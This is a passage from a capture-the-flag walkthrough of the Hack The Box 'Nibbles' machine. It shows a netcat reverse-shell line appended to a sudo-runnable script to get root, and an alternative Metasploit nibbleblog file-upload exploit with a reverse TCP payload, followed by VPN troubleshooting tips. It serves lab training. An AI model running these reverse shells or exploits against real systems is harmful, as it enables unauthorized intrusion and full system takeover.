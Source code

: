 ```
echo 'nc -e /bin/bash <ATTACKER-IP> 9002' >> /home/nibbler/personal/stuff/monitor.sh
```

- Start a new Netcat listener:

```
nc -lvnp 9002
```

- Execute the script with sudo:

```
sudo /home/nibbler/personal/stuff/monitor.sh
```

We obtain a **root shell** 🎉

#### Confirming Root Access

```
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is located in `/root/root.txt`.

### 6. Alternative Exploitation via Metasploit

Using **Metasploit** for automation:

```
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set RHOSTS <IP-Target>
set LHOST <ATTACKER-IP>
set USERNAME admin
set PASSWORD nibbles
set TARGETURI nibbleblog
set payload generic/shell_reverse_tcp
exploit
```

We obtain a shell and follow the same privilege escalation process.

## Common Pitfalls

### VPN Issues

- Ensure VPN connection is active:
  ```
  sudo openvpn ./htb.ovpn
  ```
- Check VPN IP assignment:
  ```
  ip -4 a show tun0
  ```
- Verify routing:
  ```
  sudo netstat -rn
  ```
- Confirm access by pinging gateway:
  ```
  ping -c 4 10.10.14.1
  ```
